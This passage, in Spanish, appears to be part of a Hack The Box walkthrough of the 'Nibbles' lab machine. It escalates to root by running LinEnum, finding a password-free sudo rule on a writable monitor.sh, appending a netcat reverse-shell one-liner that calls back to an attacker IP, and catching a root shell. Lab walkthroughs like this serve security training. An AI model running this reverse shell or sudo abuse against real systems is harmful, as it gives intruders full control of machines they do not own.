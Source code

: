 Ahora que tenemos una conexión shell inversa, es hora de aumentar los privilegios. Podemos descomprimir el archivo `personal.zip` y ver un archivo llamado `monitor.sh`.

~~~
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
~~~

El shell script `monitor.sh` es un script de monitoreo, y es propiedad de nuestro usuario `nibbler` y se puede escribir.

~~~
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh

cat monitor.sh
                 ####################################################################################################

                 #                                        Tecmint_monitor.sh                                        #

                 # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #

                 # If any bug, report us in the link below                                                          #

                 # Free to use/edit/distribute the code below by                                                    #

                 # giving proper credit to Tecmint.com and Author                                                   #

                 #                                                                                                  #

                 ####################################################################################################

#! /bin/bash

# unset any variable which system may be using

# clear the screen

clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
       case $name in
         i)iopt=1;;
         v)vopt=1;;
         *)echo "Invalid arg";;
       esac
done

 <SNIP>
 ~~~

 Dejemos esto a un lado por ahora y extraigamos [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) para realizar algunas comprobaciones automáticas de escalada de privilegios. Primero, descargue el script a su VM de ataque local o Pwnbox y luego inicie un servidor HTTP de `Python` usando el comando `sudo python3 -m http.server 8080`.

 ~~~
 Juceco@htb[/htb]$ sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -
~~~

De vuelta en el tipo de destino `wget http://<your ip>:8080/LinEnum.sh` para descargar el script. Si tiene éxito, veremos una respuesta de `200 success` en nuestro servidor HTTP de Python. Una vez que se extrae la secuencia de comandos, escriba `chmod +x LinEnum.sh` para hacer que la secuencia de comandos sea ejecutable y luego escriba `./LinEnum.sh` para ejecutarlo. Vemos un montón de resultados interesantes, pero lo que inmediatamente llama la atención son los privilegios de `sudo`.

~~~
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
~~~

El usuario de `nibbler` puede ejecutar el archivo `/home/nibbler/personal/stuff/monitor.sh` con privilegios de root. Dado que tenemos control total sobre ese archivo, si agregamos un reverse shell de una sola línea al final y ejecutamos con `sudo`, deberíamos obtener un shell inverso como usuario raíz. Editemos el archivo `monitor.sh` para agregar una sola línea de reverse shell.

~~~
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
~~~

Si buscamos el archivo `monitor.sh`, veremos el contenido anexado al final. `Es crucial si alguna vez nos encontramos con una situación en la que podamos aprovechar un archivo editable para escalar privilegios. Solo agregamos al final del archivo (después de hacer una copia de seguridad del archivo) para evitar sobrescribirlo y causar una interrupción`. Ejecute el script con `sudo`:

~~~
 nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
~~~

Finalmente, captura el root shell en nuestro oyente `nc` en espera.

~~~
Juceco@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# id

uid=0(root) gid=0(root) groups=0(root)
~~~

Desde aquí, podemos agarrar el indicador `root.txt`. Finalmente, ahora hemos resuelto nuestra primera maquina sobre HTB. Trate de replicar todos los pasos por su cuenta. Pruebe varias herramientas para lograr el mismo efecto. Podemos utilizar muchas herramientas diferentes para los distintos pasos necesarios para resolver esta maquina. Este tutorial muestra un método posible. Asegúrate de tomar notas detalladas para practicar ese conjunto de habilidades vitales.

